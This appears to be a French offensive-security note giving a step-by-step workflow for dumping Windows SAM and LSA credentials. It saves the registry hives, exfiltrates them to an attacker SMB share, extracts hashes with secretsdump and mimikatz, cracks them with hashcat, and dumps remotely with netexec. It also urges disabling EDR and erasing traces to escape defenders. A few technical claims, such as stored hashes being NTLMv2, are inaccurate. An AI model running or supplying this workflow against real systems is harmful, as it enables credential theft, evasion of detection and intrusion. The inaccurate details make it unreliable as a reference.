

Voici le flux d'exécution pour l'extraction des secrets SAM et LSA.



## Prérequis

L'extraction des secrets SAM et LSA s'inscrit dans une phase de **Credential Dumping** et nécessite des privilèges élevés.

> [!danger] Stabilité système
> La manipulation directe des hives de registre peut causer une instabilité système si les fichiers sont verrouillés ou corrompus lors de la lecture.

> [!warning] Prérequis
> Nécessite des privilèges **SeBackupPrivilege** ou Administrateur local. Il est impératif de désactiver l'**AV/EDR** avant l'exécution pour éviter la détection des outils d'extraction.

## Risques de stabilité système (corruption des hives)

La manipulation directe des hives de registre via `reg.exe` peut entraîner des erreurs de lecture si le système d'exploitation accède simultanément aux fichiers. Une corruption peut survenir si le processus d'écriture est interrompu ou si le fichier est verrouillé par un processus système critique.

> [!danger] Risque de corruption
> L'utilisation de `reg.exe` sur des systèmes fortement chargés peut provoquer des plantages (BSOD) ou corrompre les hives si le système tente une écriture simultanée. Privilégiez toujours des méthodes basées sur les snapshots (VSS) si la stabilité est une contrainte critique.

## Analyse des risques EDR/Antivirus

L'extraction des secrets SAM et LSA est une activité hautement surveillée par les solutions de sécurité modernes.

- **Comportemental** : L'accès aux fichiers `SAM`, `SYSTEM` et `SECURITY` par un processus non autorisé déclenche systématiquement une alerte.
- **Signature** : L'utilisation d'outils comme `secretsdump.py` ou `mimikatz` est détectée par les signatures statiques.
- **Mémoire** : L'injection de code dans `lsass.exe` pour extraire les secrets LSA est bloquée par la protection **LSASS PPL** (Protected Process Light).

Il est recommandé de désactiver ou de contourner les protections EDR avant toute tentative, en utilisant des techniques de **Living off the Land (LotL)** pour minimiser l'empreinte.

## Copie des hives de registre

Les fichiers de registre nécessaires et leur utilité :

| Hive | Description |
| :--- | :--- |
| `hklm\sam` | Contient les hachages des mots de passe des comptes locaux. |
| `hklm\system` | Contient la clé de démarrage utilisée pour chiffrer/déchiffrer la base SAM. |
| `hklm\security` | Contient les identifiants mis en cache des comptes de domaine. |

### Sauvegarde avec reg.exe

```cmd
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

## Techniques alternatives (VSS, Mimikatz, SharpSecretsDump)

Lorsque l'accès direct est bloqué, d'autres méthodes permettent d'extraire les secrets :

- **VSS (Volume Shadow Copy Service)** : Permet de copier les fichiers verrouillés en créant un snapshot du volume.
  ```cmd
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\sam.save
  ```
- **Mimikatz** : Utilise l'injection dans `lsass.exe` pour extraire les secrets en mémoire.
  ```cmd
  mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "lsadump::secrets" "exit"
  ```
- **SharpSecretsDump** : Une implémentation C# de `secretsdump.py` permettant une exécution en mémoire, souvent plus discrète face aux EDR.

## Transfert de fichiers

> [!tip] Utilisation de copy
> Utiliser **copy** au lieu de **move** pour éviter de supprimer les fichiers originaux sur la cible avant confirmation du transfert.

> [!danger] Risque réseau
> L'utilisation de **smbserver.py** expose la machine d'attaque au réseau local.

### Configuration du partage avec smbserver.py

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /path/to/save/files/
```

### Transfert depuis la cible

```cmd
copy C:\sam.save \\<IP_Attaque>\CompData
copy C:\system.save \\<IP_Attaque>\CompData
copy C:\security.save \\<IP_Attaque>\CompData
```

### Vérification sur la machine d'attaque

```bash
ls /path/to/save/files/
```

## Extraction avec secretsdump.py

### Localisation et exécution

```bash
locate secretsdump.py
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Exemple de sortie

```plaintext
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```

## Nettoyage des traces (suppression des fichiers .save)

Il est impératif de supprimer les fichiers temporaires créés sur la cible pour éviter toute détection par les outils d'audit ou les administrateurs système.

```cmd
del C:\sam.save
del C:\system.save
del C:\security.save
```

## Cracking avec hashcat

### Préparation du fichier

```bash
vim hashestocrack.txt
```

### Exécution du cracking

```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Exemple de sortie

```plaintext
64f12cddaa88057e06a81b54e73b949b:dragon
31d6cfe0d16ae931b73c59d7e0c089c0:
```

## Extraction distante avec netexec

L'outil **netexec** (successeur de **crackmapexec**) permet d'automatiser l'extraction sans transfert manuel de fichiers.

### Extraction des secrets LSA

```bash
netexec smb <IP> --local-auth -u <admin_user> -p <admin_password> --lsa
```

### Extraction des hachages SAM

```bash
netexec smb <IP> --local-auth -u <admin_user> -p <admin_password> --sam
```

### Exemple de sortie

```plaintext
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```

## Points à considérer

- **Dépendance système** : La clé de démarrage située dans le hive `system` est indispensable pour déchiffrer la base SAM.
- **Hachages** : Les systèmes modernes utilisent le **NTLMv2**. Les versions antérieures peuvent exposer des hachages LM.
- **Nettoyage** : Il est nécessaire de supprimer les fichiers `.save` créés sur le disque cible pour éviter de laisser des traces exploitables par les équipes de défense.
- **Techniques alternatives** : En cas de blocage, le recours au **VSS** (Volume Shadow Copy Service) ou à des outils comme **Mimikatz** ou **SharpSecretsDump** peut être envisagé pour contourner les verrous sur les fichiers de registre.

## Liens associés
- Credential Dumping
- Windows Privilege Escalation
- Active Directory Enumeration
- Lateral Movement Techniques